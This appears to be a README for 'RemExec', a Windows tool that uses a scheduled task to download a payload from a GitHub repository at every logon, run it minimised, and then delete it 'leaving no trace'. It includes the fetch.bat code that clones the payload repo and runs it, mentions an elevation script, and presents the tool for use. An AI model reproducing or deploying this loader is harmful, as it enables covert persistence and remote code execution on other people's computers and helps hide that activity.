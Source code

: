 To install it run the "elevate.bat" no admin required for now... It will be required ~3 seconds later :). This will create a task from "fetch.xml" that is visible in Task Scheduler on main page and will be started at user logon!

*create "safe.txt" to bypass the payload execution! If installed via installer in ("%localappdata%\Programs\RemExec") or in root folder (after extraction) in case of RemExec is downloaded from here*
  
  
  
  
  RemExec is a program that is used to download payload from a repository and execute it on a pc at startup!

1. At logon a task is scheduled to run and download the payload
  
2. It runs itself
  
3. After exiting auto-deletes the folder of payload and script leaving no trace!

Costumize the github repo that is used to download the payload from the "fetch.bat" (ONLY FILE THAT CAN BE SAFE TO EDIT)


+ The Payloads are fully costumizable to run anything.
+ Won't run with admin by itself! A elevation script / 3rd party is required to run the patload as admin!
+ Any 3rd parties / any additional files can be placed in same repository besides payload. Both / All of them will be downloaded.  


Code for "fetch.bat"

        @echo off
        call git clone https://github.com/USER/REPOSITORY.git
        start /min execute.bat
        exit
